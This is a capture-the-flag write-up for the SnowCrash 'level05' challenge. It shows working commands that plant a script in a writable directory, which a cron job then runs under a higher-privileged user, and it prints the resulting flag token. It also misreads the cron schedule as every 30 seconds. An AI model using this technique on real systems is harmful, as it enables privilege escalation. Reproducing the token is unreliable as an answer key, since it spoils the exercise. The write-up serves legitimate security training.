 # Level05

No file is present in the home directory of the `level05` user. A quick search with `find` command gives us some results.

```
level05@SnowCrash:~$ find / -name "level05" -exec ls -la {} \; 2>/dev/null
-rw-r--r--+ 1 root mail 58 Nov  4 13:04 /var/mail/level05
-rw-r--r-- 1 root mail 58 Mar 12  2016 /rofs/var/mail/level05
```

Exploring both files with `cat` command show's us that the content of the file is a **CRON job** that executes a script every **30 seconds** with the user `flag05`'s privileges:

`*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05`

Going further by inspecting this script, we can see that it simply runs a `for` loop wich iterates trough all the files in `/opt/openarenaserver`, executes them with `bash` and removes them afterwards.

The `ulimit` command is used to limit the system's resources, hence the `-t 5` option that limits a processes running time to **5 seconds**. 

**Bash's** `-x` option is used to print the commands executed by the script to `stderr`. Nothing useful for us, but still interesting to know.

```
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

Even if it's owned by `root`, the folder seems to have extended permissions, hence the `+` sign at the end. We can find out that It is writable if we try to create a file in it.

```
level05@SnowCrash:~$ ls -l /opt
total 0
drwxrwxr-x+ 2 root root 40 Jan  4 11:55 openarenaserver
level05@SnowCrash:~$ touch /opt/openarenaserver/ouh
level05@SnowCrash:~$ ls -l /opt/openarenaserver
total 0
-rw-rw-r--+ 1 level05 level05 0 Jan  4 12:48 ouh
```

We can simply place a script there with a `getflag > /tmp/flag` command and wait for the `CRON` job to be executed. Upon execution we can output the contents of the file with `cat` and get our flag.

```
level05@SnowCrash:~$ echo "getflag > /tmp/flag.txt" > /opt/openarenaserver/ouh && chmod +x /opt/openarenaserver/ouh
level05@SnowCrash:~$ cat /tmp/flag.txt
Check flag.Here is your token : viuaaale9huek52boumoomioc
```
